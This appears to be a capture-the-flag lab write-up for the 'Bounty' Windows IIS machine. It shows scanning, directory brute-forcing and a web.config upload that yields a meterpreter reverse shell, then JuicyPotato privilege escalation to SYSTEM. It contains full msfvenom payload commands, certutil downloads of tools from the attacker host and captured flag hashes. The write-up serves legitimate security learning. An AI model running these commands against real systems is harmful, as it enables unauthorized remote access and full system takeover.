







Bounty
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=tun0 -project=Bounty -host=10.10.10.93 <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to perform a single host scan. [+] Directory created at: /HaGashash_Projects/Bounty/10.10.10.93. [!] Starting to scan 10.10.10.93 for UDP interesting stuff. [!] Starting to scan 10.10.10.93 for TCP interesting stuff. [+] Nmap's TCP script scanning on 10.10.10.93 is completed successfully. [+] Nmap's UDP script scanning on 10.10.10.93 is completed successfully. [+] Summary file for 10.10.10.93 is ready. [gandosha@GandoPC 10.10.10.93]$ cat nmap_TCP_scan_output # Nmap 7.70 scan initiated Sun Nov 4 15:32:47 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/Bounty/10.10.10.93/nmap_TCP_scan_output 10.10.10.93 Nmap scan report for 10.10.10.93 Host is up, received user-set (0.11s latency). Scanned at 2018-11-04 15:32:48 IST for 208s Not shown: 65534 filtered ports Reason: 65534 no-responses PORT STATE SERVICE REASON VERSION 80/tcp open http syn-ack ttl 127 Microsoft IIS httpd 7.5 | http-methods: | Supported Methods: OPTIONS TRACE GET HEAD POST |_ Potentially risky methods: TRACE |_http-server-header: Microsoft-IIS/7.5 |_http-title: Bounty Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port Device type: general purpose|phone|specialized Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%) OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012 OS fingerprint not ideal because: Missing a closed TCP port so results incomplete Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%) No exact OS matches for host (test conditions non-ideal). TCP/IP fingerprint: SCAN(V=7.70%E=4%D=11/4%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5BDEF5D0%P=x86_64-unknown-linux-gnu) SEQ(SP=102%GCD=1%ISR=10F%TI=I%II=I%SS=S%TS=7) OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11) WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000) ECN(R=Y%DF=Y%TG=80%W=2000%O=M54DNW8NNS%CC=N%Q=) T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=) T2(R=N) T3(R=N) T4(R=N) U1(R=N) IE(R=Y%DFI=N%TG=80%CD=Z) Uptime guess: 0.180 days (since Sun Nov 4 11:17:43 2018) Network Distance: 2 hops TCP Sequence Prediction: Difficulty=258 (Good luck!) IP ID Sequence Generation: Incremental Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows TRACEROUTE (using port 80/tcp) HOP RTT ADDRESS 1 107.08 ms 10.10.12.1 2 107.64 ms 10.10.10.93 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sun Nov 4 15:36:16 2018 -- 1 IP address (1 host up) scanned in 209.68 seconds
Port 80 check:
Attempt to access via http port 80:
I started to brute force victim's web directories:
===================================================== Gobuster v2.0.1 OJ Reeves (@TheColonial) ===================================================== [+] Mode : dir [+] Url/Domain : http://10.10.10.93/ [+] Threads : 10 [+] Wordlist : /home/gandosha/Desktop/SecLists/Discovery/Web-Content/raft-large.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== ===================================================== /aspnet_client (Status: 301) /UploadedFiles (Status: 301) /Aspnet_client (Status: 301) /aspnet_Client (Status: 301) /ASPNET_CLIENT (Status: 301) /Aspnet_Client (Status: 301) /. (Status: 200) /iisstart.htm (Status: 200) /Transfer.aspx (Status: 200) /aspnet_client (Status: 301) /. (Status: 200) /uploadedfiles (Status: 301) /uploadedFiles (Status: 301) /UploadedFiles (Status: 301) /Aspnet_client (Status: 301) /aspnet_Client (Status: 301) /ASPNET_CLIENT (Status: 301) /Aspnet_Client (Status: 301) /Uploadedfiles (Status: 301) ===================================================== =====================================================
/Transfer.aspx is found.
I tried to enumerate what extensions are available for upload:

There's a nice technique to upload a web.config file in order to gain a webshell (https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/).
I tried this technique in the following manner:
First, I created a gandoshell.exe file using msfvenom.
[GandoPC 10.10.10.93]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.221 LPORT=4444 -f exe > /srv/http/gandoshell.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder or badchars specified, outputting raw payload Payload size: 341 bytes Final size of exe file: 73802 bytes
Then, I downloaded it to C:/users/public directory:
In order to perform an execution of the command I had to access web.config:
Before initiating my reverse shell, I had to startup a listener:
[gandosha@GandoPC 10.10.10.93]$ msfconsole -x "use exploit/multi/handler;set LHOST 10.10.14.221;set LPORT 4444;set PAYLOAD windows/meterpreter/reverse_tcp;run"
____________
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a, |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a, |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%| `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
[% .--------..-----.| |_ .---.-.| .,a$%|.-----.| |.-----.|__|| |_ %%]
[% | || -__|| _|| _ || ,,aS$""` || _ || || _ || || _|%%]
[% |__|__|__||_____||____||___._||%$P"` || __||__||_____||__||____|%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a, ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% `"$ %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
=[ metasploit v4.17.14-dev ]
+ -- --=[ 1809 exploits - 1027 auxiliary - 313 post ]
+ -- --=[ 539 payloads - 42 encoders - 10 nops ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
LHOST => 10.10.14.221
LPORT => 4444
PAYLOAD => windows/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.221:4444
Then, upload a new web.config file that contains a command that executes gandoshell.exe and access it again in /UploadedFiles to execute it:
Privilege escalation:
I got a shell and merlin's hash:
[gandosha@GandoPC 10.10.10.93]$ msfconsole -x "use exploit/multi/handler;set LHOST 10.10.14.221;set LPORT 4444;set PAYLOAD windows/meterpreter/reverse_tcp;run"
____________
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a, |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a, |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%| `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
[% .--------..-----.| |_ .---.-.| .,a$%|.-----.| |.-----.|__|| |_ %%]
[% | || -__|| _|| _ || ,,aS$""` || _ || || _ || || _|%%]
[% |__|__|__||_____||____||___._||%$P"` || __||__||_____||__||____|%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a, ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% `"$ %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
=[ metasploit v4.17.14-dev ]
+ -- --=[ 1809 exploits - 1027 auxiliary - 313 post ]
+ -- --=[ 539 payloads - 42 encoders - 10 nops ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
LHOST => 10.10.14.221
LPORT => 4444
PAYLOAD => windows/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.221:4444
[*] Sending stage (179779 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.221:4444 -> 10.10.10.93:49159) at 2018-11-05 14:24:35 +0200
meterpreter > shell
Process 2160 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
c:\windows\system32\inetsrv>cd C:\\ && dir /s Desktop
cd C:\\ && dir /s Desktop
Volume in drive C has no label.
Volume Serial Number is 5084-30B0
Directory of C:\Users\Default
07/14/2009 04:34 AM Desktop
0 File(s) 0 bytes
Directory of C:\Users\merlin
05/30/2018 11:17 PM Desktop
0 File(s) 0 bytes
Total Files Listed:
0 File(s) 0 bytes
2 Dir(s) 11,884,126,208 bytes free
C:\Users\merlin\Desktop>dir /a
dir /a
Volume in drive C has no label.
Volume Serial Number is 5084-30B0
Directory of C:\Users\merlin\Desktop
05/30/2018 11:17 PM .
05/30/2018 11:17 PM ..
05/29/2018 11:22 PM 282 desktop.ini
05/30/2018 10:32 PM 32 user.txt
2 File(s) 314 bytes
2 Dir(s) 11,884,093,440 bytes free
C:\Users\merlin\Desktop>type user.txt
type user.txt
e29ad89891462e0b09741e3082f44a2f
I started to enumerate the system.
C:\Users\merlin\Desktop>net users
net users
User accounts for \\BOUNTY
-------------------------------------------------------------------------------
Administrator Guest merlin
The command completed successfully.
C:\Users\merlin\Desktop>net user Administrator
net user Administrator
User name Administrator
Full Name
Comment Built-in account for administering the computer/domain
User's comment
Country code 000 (System Default)
Account active Yes
Account expires Never
Password last set 5/30/2018 10:48:33 PM
Password expires Never
Password changeable 5/30/2018 10:48:33 PM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 11/5/2018 2:24:02 PM
Logon hours allowed All
Local Group Memberships *Administrators
Global Group memberships *None
The command completed successfully.
C:\Users\merlin\Desktop>systeminfo
systeminfo
Host Name: BOUNTY
OS Name: Microsoft Windows Server 2008 R2 Datacenter
OS Version: 6.1.7600 N/A Build 7600
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 55041-402-3606965-84760
Original Install Date: 5/30/2018, 12:22:24 AM
System Boot Time: 11/5/2018, 2:21:51 PM
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 1 Processor(s) Installed.
[01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 4/5/2016
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-us;English (United States)
Input Locale: en-us;English (United States)
Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory: 2,047 MB
Available Physical Memory: 1,567 MB
Virtual Memory: Max Size: 4,095 MB
Virtual Memory: Available: 3,610 MB
Virtual Memory: In Use: 485 MB
Page File Location(s): C:\pagefile.sys
Domain: WORKGROUP
Logon Server: N/A
Hotfix(s): N/A
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) PRO/1000 MT Network Connection
Connection Name: Local Area Connection
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.93
C:\Users\merlin\Desktop>cd C:\users\public && dir /a
cd C:\users\public && dir /a
Volume in drive C has no label.
Volume Serial Number is 5084-30B0
Directory of C:\Users\Public
11/05/2018 02:22 PM .
11/05/2018 02:22 PM ..
07/14/2009 06:57 AM Desktop
07/14/2009 06:57 AM 174 desktop.ini
07/14/2009 07:06 AM Documents
07/14/2009 06:57 AM Downloads
07/14/2009 04:34 AM Favorites
11/05/2018 02:22 PM 73,802 gandoshell.exe
07/14/2009 06:57 AM Libraries
07/14/2009 06:57 AM Music
07/14/2009 06:57 AM Pictures
07/14/2009 06:57 AM Videos
2 File(s) 73,976 bytes
10 Dir(s) 11,884,744,704 bytes free
In order to elevate my privileges I used "Juicy-potato".
But first, I created a new gandoshell in order to get a reverse shell back to my attacking machine with admin privs.
[GandoPC 10.10.10.93]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.221 LPORT=4445 -f exe > /srv/http/gandoshell_JP.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder or badchars specified, outputting raw payload Payload size: 341 bytes Final size of exe file: 73802 bytes
Then I moved all necessary files to victim's machine and I started a new listener on port 4445:
C:\Users\Public>certutil -urlcache -split -f http://10.10.14.221/privsEsc/windows/juicy-potato/JuicyPotato.exe certutil -urlcache -split -f http://10.10.14.221/privsEsc/windows/juicy-potato/JuicyPotato.exe **** Online **** 000000 ... 054e00 CertUtil: -URLCache command completed successfully. C:\Users\Public>certutil -urlcache -split -f http://10.10.14.221/gandoshell_JP.exe certutil -urlcache -split -f http://10.10.14.221/gandoshell_JP.exe **** Online **** 000000 ... 01204a CertUtil: -URLCache command completed successfully.
[gandosha@GandoPC 10.10.10.93]$ msfconsole -x "use exploit/multi/handler;set LHOST 10.10.14.221;set LPORT 4445;set PAYLOAD windows/meterpreter/reverse_tcp;run"
.:okOOOkdc' 'cdkOOOko:.
.xOOOOOOOOOOOOc cOOOOOOOOOOOOx.
:OOOOOOOOOOOOOOOk, ,kOOOOOOOOOOOOOOO:
'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
oOOOOOOOO. .oOOOOoOOOOl. ,OOOOOOOOo
dOOOOOOOO. .cOOOOOc. ,OOOOOOOOx
lOOOOOOOO. ;d; ,OOOOOOOOl
.OOOOOOOO. .; ; ,OOOOOOOO.
cOOOOOOO. .OOc. 'oOO. ,OOOOOOOc
oOOOOOO. .OOOO. :OOOO. ,OOOOOOo
lOOOOO. .OOOO. :OOOO. ,OOOOOl
;OOOO' .OOOO. :OOOO. ;OOOO;
.dOOo .OOOOocccxOOOO. xOOd.
,kOl .OOOOOOOOOOOOO. .dOk,
:kk;.OOOOOOOOOOOOO.cOk:
;kOOOOOOOOOOOOOOOk:
,xOOOOOOOOOOOx,
.lOOOOOOOl.
,dOd,
.
=[ metasploit v4.17.14-dev ]
+ -- --=[ 1809 exploits - 1027 auxiliary - 313 post ]
+ -- --=[ 539 payloads - 42 encoders - 10 nops ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
LHOST => 10.10.14.221
LPORT => 4445
PAYLOAD => windows/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.221:4445
By invoking JuicyPotato.exe, I got a reverse shell on port 4445 and then root.txt:
C:\Users\Public>JuicyPotato.exe -t * -p gandoshell_JP.exe -l 1337
JuicyPotato.exe -t * -p gandoshell_JP.exe -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[gandosha@GandoPC 10.10.10.93]$ msfconsole -x "use exploit/multi/handler;set LHOST 10.10.14.221;set LPORT 4445;set PAYLOAD windows/meterpreter/reverse_tcp;run"
.:okOOOkdc' 'cdkOOOko:.
.xOOOOOOOOOOOOc cOOOOOOOOOOOOx.
:OOOOOOOOOOOOOOOk, ,kOOOOOOOOOOOOOOO:
'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
oOOOOOOOO. .oOOOOoOOOOl. ,OOOOOOOOo
dOOOOOOOO. .cOOOOOc. ,OOOOOOOOx
lOOOOOOOO. ;d; ,OOOOOOOOl
.OOOOOOOO. .; ; ,OOOOOOOO.
cOOOOOOO. .OOc. 'oOO. ,OOOOOOOc
oOOOOOO. .OOOO. :OOOO. ,OOOOOOo
lOOOOO. .OOOO. :OOOO. ,OOOOOl
;OOOO' .OOOO. :OOOO. ;OOOO;
.dOOo .OOOOocccxOOOO. xOOd.
,kOl .OOOOOOOOOOOOO. .dOk,
:kk;.OOOOOOOOOOOOO.cOk:
;kOOOOOOOOOOOOOOOk:
,xOOOOOOOOOOOx,
.lOOOOOOOl.
,dOd,
.
=[ metasploit v4.17.14-dev ]
+ -- --=[ 1809 exploits - 1027 auxiliary - 313 post ]
+ -- --=[ 539 payloads - 42 encoders - 10 nops ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
LHOST => 10.10.14.221
LPORT => 4445
PAYLOAD => windows/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.221:4445
[*] Sending stage (179779 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.221:4445 -> 10.10.10.93:49174) at 2018-11-05 15:04:49 +0200
meterpreter > shell
Process 1700 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>type "C:\Users\Administrator\Desktop\root.txt"
type "C:\Users\Administrator\Desktop\root.txt"
c837f7b699feef5475a0c079f9d4f5ea